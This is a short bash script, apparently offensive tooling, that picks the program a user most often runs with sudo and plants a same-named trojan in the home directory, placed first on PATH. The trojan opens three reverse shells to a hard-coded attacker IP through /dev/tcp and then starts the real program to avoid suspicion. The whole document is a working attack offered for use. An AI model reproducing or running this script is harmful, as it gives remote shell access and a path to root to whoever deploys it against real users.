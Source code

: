 #!/bin/bash
# find most common app used with sudo
common=`history | grep sudo | awk '{print \$2, \$3}' | sort | uniq -c | sort -nr | awk '{print \$3}' | awk '(NR>=0 && NR<=11){print} (NR==1){exit}'`
location=`whereis \$common | awk '{print \$2}'`

# create malicious app
cat << EOF > $HOME/$common
#!/bin/bash
# open reverse shell 
# change IP and Port to your attack machine settings
bash -i >& /dev/tcp/192.168.1.44/4444 0>&1 2>&1 &
exec 196<>/dev/tcp/192.168.1.44/4443; sh <&196 >&196 2>&196 &
/bin/bash -l > /dev/tcp/192.168.1.44/4442 0<&1 2>&1 &
# open original program to prevent suspicion 
$location $1 $2 $3 $4 $5 $6 $7 $8 $9
EOF

# make new app executable
chmod 777 $HOME/$common

# add HOME directory to the PATH
export PATH=$HOME:$PATH

